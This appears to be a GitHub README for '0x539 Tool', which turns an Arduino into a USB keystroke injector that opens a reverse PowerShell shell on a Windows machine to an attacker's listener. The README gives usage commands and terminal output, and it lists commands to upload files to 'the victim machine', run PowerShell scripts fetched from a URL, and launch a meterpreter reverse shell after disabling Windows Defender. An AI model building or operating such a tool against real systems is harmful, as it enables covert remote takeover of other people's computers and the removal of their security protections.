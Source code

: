 # 0x539 Tool

This project is to connect a windows maching using an arduino to a listening server using a port and a host through TCP.
 
*Note: A video tutorial will be added on the main* [Lear Hacking](https://www.youtube.com/channel/UCGj2tNcFld-_tCZLSkFe4ww) *Youtube channel soon!*

## Getting Started

Once the Arduino is plugged to the windows machine you'll have a powershell of that user.

### Prerequisites

To complete this you will first need to install the [Arduino IDE](https://www.arduino.cc/en/main/software), and a list of python packages.


```
pwn, argparse
```

### Installing

* Install the Arduino IDE.
* Install python on Linux:
```
sudo apt update
sudo apt-get install python3.8
```
* Install pwn

```
pip install pwn
# or
python3 pip install pwn
```

## Running the tool

After cloning this repository into your linux machine.

### Run the script listener

To see the help menu of the tool listener:

```
python3 listen-usb.py -h
```
```
usage: listen-usb.py [-h] [-admin] [-debug] --lport LPORT --lhost LHOST --keyboard KEYBOARD

0x539 tool. A tool to connect to thepowershell reversed shell from arduino mini pro.

optional arguments:
  -h, --help           show this help message and exit
  -admin               get admin access to powershell but it hopefully press the yes to runAs."
  -debug               debug mode will keep the cmd window open"
  --lport LPORT        port example: 4444
  --lhost LHOST        host example: attackerwebsite.com (or an ip 198.23.44.132)
  --keyboard KEYBOARD  keyboard example: azerty (or qwerty)

usage: listen-usb.py [-h] [-debug] --lport LPORT --lhost LHOST --keyboard
                     KEYBOARD

```


### Example:

Running this next command will generate an Arduino C code, which is the exploit that gonna be uploaded to the Arduino (Im using Arduino pro mini atmega32u4).

```
python3 listen-usb.py --lport 9001 --lhost 192.168.183.20 --keyboard qwerty
```
This will keep listening on the specified port and generate a new file called arduino_qwerty.c .
```
# fist terminal
kali@kali:~/Documents/tools/github-proj/usb-reverse$ python3 listen-usb.py --lport 9001 --lhost 192.168.183.20 --keyboard qwerty
[+] Creating file: arduino_qwerty.c
[+] File created check it on the current path
[+] Listening..
[+] Trying to bind to 0.0.0.0 on port 9001: Done
[┐] Waiting for connections on 0.0.0.0:9001

```
```
# second terminal
kali@kali:~/Documents/tools/github-proj/usb-reverse$ ls
arduino_qwerty.c  exploits  listen-usb.py  README.md
```
Next thing to do is compile the Arduino c file in the Arduino IDE mentioned earlier, im not gonna go through that cause there's a plenty of tutorials out there to compile an Arduino c code and upload, so just google that, or check this videos playlist [Arduino Workshop - Chapter One - Hello World Example](https://www.youtube.com/watch?v=Bz_s3D96C5c&list=PLPK2l9Knytg5s2dk8V09thBmNl2g5pRSr&index=8).

Now once you plug in the Arduino on the usb port, you will be connected to the tool

```
kali@kali:~/Documents/tools/github-proj/usb-reverse$ python3 listen-usb.py --lport 9003 --lhost 192.168.183.20 --keyboard qwerty
[+] Creating file: arduino_qwerty.c
[+] File created check it on the current path
[+] Listening..
[+] Trying to bind to 0.0.0.0 on port 9003: Done
[+] Waiting for connections on 0.0.0.0:9003: Got connection from 192.168.183.1 on port 58629

      ___   ___   ___  _____   ____     ___
     / _ \  \  \ /  / | ____| |___ \   / _ \
    | | | |  \  V  /  | |__     __) | | (_) |
    | | | |   >   <   |___ \   |__ <   \__, |
    | |_| |  /  .  \   ___) |  ___) |    / /
     \___/  /__/ \__\ |____/  |____/    /_/

     Tool.

!0x53O>
```

Now that you're connected to the tool, you can interact with the powershell and use the tool commands.

## Tool brief

Type help to get the help menu

```
commands:
    ps              connect to powershell
    upload          download file
    enumerate       enumerate windows vulnerabilities
    urlexec         execute a powershell script from a link
    meterpreter     run meterpreter default port 9090
    help            open this help menu
    exit            quit this tool
```

### ps command
Gives you a prompt to powershell on that windows.

### upload command
Uploads a file to the victim machine.
```
usuage:
	upload <link> <filename>
example:
	uplaod https://raw.githubusercontent.com/absolomb/WindowsEnum/master/WindowsEnum.ps1 windowsEnum.ps1
```
### enumerate command
Enumerate the windows privileges and informations.

### urlexec
Execute a powershell script from a url

### meterpreter (mp)
generate a reverse tcp exe file to default lport 9090 (you can change the lports and lhost with the httpport all together), and run it in the victim's machine after disabling Windows defender (-admin must be specified after listen-usb.py before generating the arduino c payload), which prompt you a meterpreter (wigth all preveliges).
```
mp
``` 

## Creator

* This tool was Created by [l0x539](https://0x539.co).

